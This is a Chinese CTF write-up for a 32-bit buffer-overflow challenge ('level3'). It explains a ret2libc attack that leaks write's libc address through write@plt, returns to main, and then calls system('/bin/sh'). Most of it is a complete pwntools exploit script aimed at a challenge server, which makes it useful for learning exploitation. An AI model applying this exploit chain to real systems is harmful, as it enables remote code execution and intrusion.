 + 这道题首先要通过 `read` 来泄露`write` 的 `libc` 偏移（因为服务器肯定开启了 `ASLR` ），得到 `write` 的偏移之后再重新回到 `main` 函数，再执行一次，这样就可以在泄露了 `libc` 的地址之后再跳到 `system` 。

+ 为什么这道题我构造第一个 `payload` 的时候将 `write` 的 `got` 表作为第一个返回地址不行，而将其 `plt` 表作为第一个返回地址就可以？ `write` 已经执行过一次其 `got` 表不是已经放了其偏移地址吗？

+ 这道题巧妙的地方在于先通过 `write` 泄露 `libc` 然后再跳转到  `main` 函数重新执行一遍，在上一次执行得到 `libc` 的偏移之后，这一次就可以跳到 `system` 来 `getshell` 。

  ```python3
  #!/usr/python3
  #coding:utf-8
  
  from pwn import *
  
  io = connect("220.249.52.133", 59531)
  
  libc = ELF("./libc_32.so.6")
  
  elf = ELF("./level3")
  
  # 因为write已经执行过一次，所以其got表里面存放的是其libc的地址
  write_got = elf.got["write"]
  
  # write的plt
  write_plt_addr = elf.plt["write"]
  
  # 泄露libc之后回到main再执行一次
  main_addr = elf.symbols["main"]
  
  # 参数从右往左入栈
  payload = flat([cyclic(140), write_plt_addr, main_addr, 1, write_got, 4])
  
  io.sendlineafter("nput:\n", payload)
  
  write_addr = u32(io.recv(4))
  
  success("write_addr = 0x%x\n", write_addr)
  
  # 获取libc偏移
  libc_offset = write_addr - libc.symbols["write"]
  
  # 得到system在libc中的地址
  system_addr = libc_offset + libc.symbols["system"]
  
  # 构造第二个payload
  payload = flat([cyclic(140), system_addr, b'AAAA', next(libc.search(b"/bin/sh")) + libc_offset])
  
  io.sendlineafter("nput:\n", payload)
  
  io.interactive()
  ```

  